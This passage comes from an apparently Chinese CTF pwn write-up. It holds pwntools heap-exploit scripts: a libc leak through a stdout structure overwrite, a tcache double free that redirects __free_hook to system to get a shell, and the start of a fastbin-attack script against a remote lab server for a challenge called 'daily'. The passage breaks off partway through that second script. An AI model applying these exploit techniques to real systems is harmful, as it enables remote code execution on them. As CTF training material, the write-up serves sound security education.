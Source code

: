 ```
    delete(0)

add('1',sz,p64(0x602020))
add('2',sz,'123')
if debug:
    add('3',sz,'\x60')
    data = add('4',sz,p64(0xfbad1800)+p64(0)*3+'\x80')
    libc = u64(data[:8])
    base = libc - 0x3EC780
else:
    add('3',sz,'\x20')
    data = add('4',sz,p64(0xfbad1800)+p64(0)*3+'\x40')
    libc = u64(data[:8]) 
    base = libc - 0x3db720 - 0x20

add('5',0x68,'/bin/sh')
delete(5)
delete(5)
delete(5)

free_hook = base+e.symbols['__free_hook']
system = base+e.symbols['system']

add('6',0x68,p64(free_hook))
add('7',0x68,'/bin/sh\x00')
add('8',0x68,p64(system))

sl('2')
ru('index')
sl('7')

print(hex(base))

p.interactive()

```

### daily

下标溢出，直接任意地址free，之后直接fastbin attack就行

payload如下

```
from pwn import *

debug = 0
if debug:
    p = process('./pwn2')
    gdb.attach(p)
else:
    p = remote('85c3e0fcae5e972af313488de60e8a5a.kr-lab.com', 58512)

context.log_level='debug'

e = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')


def add(len, context):
	p.recvuntil('choice:')
	p.sendline('2')
	p.recvuntil(':')
	p.sendline(str(len))
	p.recvuntil('\n')
```
